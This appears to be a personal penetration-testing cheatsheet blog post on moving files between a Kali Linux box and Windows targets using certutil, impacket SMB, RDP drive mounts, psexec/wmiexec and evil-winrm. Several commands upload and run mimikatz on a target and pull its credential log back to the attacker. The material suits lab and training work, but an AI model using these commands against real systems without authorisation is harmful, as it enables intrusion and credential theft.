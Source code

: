 ```yaml
---
layout: post
title: Windows to Linux File Transfers
tag: [cheatsheet]
---
```


![](https://imgs.xkcd.com/comics/file_transfer.png)
_A relevant xkcd comic for your pleasure._

Transferring files from windows to linux can be annoying. Anyway you do it requires remembering some command line options for whatever tool you're using, which is why this post is being made as a reference for myself.

Here are the methods:

## certutil.exe

On linux box, set up the server:

`python -m http.server 80`

From windows box:

`certutil.exe -urlcache -f http://<your ip>/<filename> <local destination path>`


## SMB: 
Start server on linux:
```bash
impacket-smbserver MyShareName . -smb2support  -username USERNAME -password PASSWORD
```

then in Windows:
```powershell
net use m: \\Kali_IP\MyShareName /user:USERNAME PASSWORD

copy \path\to\local\file m:\
```

## RDP: Mounting Shared Folders
### xfreerdp
Linux:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-200
```

Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

### rdesktop

Linux:
```bash
rdesktop -z -P -x m -u USERNAME -p PASSWORD XXX.XXX.XXX.XXX -r disk:test=/home/kali/Documents/
```

Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

## smpacket tools
> `psexec` and `wmiexec` are shipped with built in feature for file transfer.
{: .prompt-info}

> **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
{: .prompt-info}

Uploading mimikatz.exe to the target machine:
```powershell
lput mimikatz.exe

cd C:\windows

dir /b mimikatz.exe

mimikatz.exe
```

Downloading mimikatz.log:

```bash
lget mimikatz.log
```

## Evil-winrm

Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```

Downloading files:
```bash
download mimikatz.log /home/kali/Documents
```
